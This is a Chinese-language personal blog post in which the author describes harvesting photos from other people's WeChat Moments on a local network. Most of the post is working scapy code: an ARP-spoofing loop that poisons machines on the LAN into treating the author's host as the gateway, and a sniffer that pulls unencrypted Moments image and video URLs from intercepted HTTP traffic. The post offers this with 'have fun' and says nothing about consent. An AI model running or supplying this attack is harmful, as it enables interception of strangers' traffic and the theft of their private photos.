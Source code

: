```yaml
---
layout: post
title: "收割朋友圈照片"
excerpt: "scapy sniff"
category: security
tags: [security]
disqus: true
---
```


大概源于前一阵很火的微信朋友圈红包照片。

我记得那天是刚从长亭科技膜拜完离开，看到朋友圈满目的红包照片。

首先是BJ Nodejs的群里有人开始晒不给红包看照片，后来这些搞计算机的同学都不给红包了。。。

好多天之后，我想，干脆爬下朋友圈吧。

于是有下文。

## 概述

目标：收割手机微信查看朋友圈时的照片

手段：ARP污染，告诉局域网内所有机器我是网关

## 设置系统转发

确保：

```bash
reverland@localhost » cat /proc/sys/net/ipv4/ip_forward                                                                                               ~/tmp/sshjs  
1
```

## ARP污染

首先，我熟悉的scapy

```python
#! /usr/bin/python
# -*- coding: utf-8 -*-
# 欺骗target我是网关

from scapy.all import *
import sys
import time

target = sys.argv[1]
gateway = sys.argv[2]
# 也许不必要
# 我只需要欺骗victim我是网关，把 请求 数据给我
# 获取网关
# route -n 0.0.0.0
### 本机ip
# ip addr show wlan0
# myip = '192.168.1.2'
# 获取目标MAC地址
# 1. arp -e 192.168.1.6
# 2. this way
# a, _ = srp(Ether(dst='ff:ff:ff:ff:ff:ff:ff')/ARP(op="who-has", psrc=myip, pdst=target),inter=RandNum(10,40), loop=0)
# targetMac = a[0][1]['ARP'].hwsrc

while 1:
    send(ARP(op="who-has", pdst=target, psrc=gateway))
    time.sleep(1)
```

实际上这么一广播所有的机器都会把你当作网关。。。只要你时刻不停的污染下去。

警告：可能会触发杀毒软件啥的警报

## 收割图片

匹配流量中图片地址就好，幸好微信消息是加密的, 只有朋友圈照片不加密。。

```python
#! /usr/bin/python
# -*- coding: utf-8 -*-

from scapy.all import *

def prn(x):
    s = x['Raw'].load.split(' ')[1]
    if s.find('/mmsns/') >= 0 and s.find('/0?tp=webp') >= 0:
        return 'http://mmsns.qpic.cn' + s.replace('tp=webp', '')
    elif s.find('snsvideodownload') >= 0:
        return 'http://vweixinf.tc.qq.com' + s

def lfilter(x):
    if x.haslayer('Raw') < 1:
        return False
    s = x['Raw'].load.split(' ')
    if s[0] == 'GET':
        return True
    return False

sniff(iface="wlan0", filter="outbound and tcp and (port 80)", prn=prn, store=0, lfilter=lfilter)
```

That is all, have fun!

scapy 简直杀人越货的必备。发现该项目已经从bitbucket迁移到github上了。

没有做的

1.  把两个部分放到两个线程里
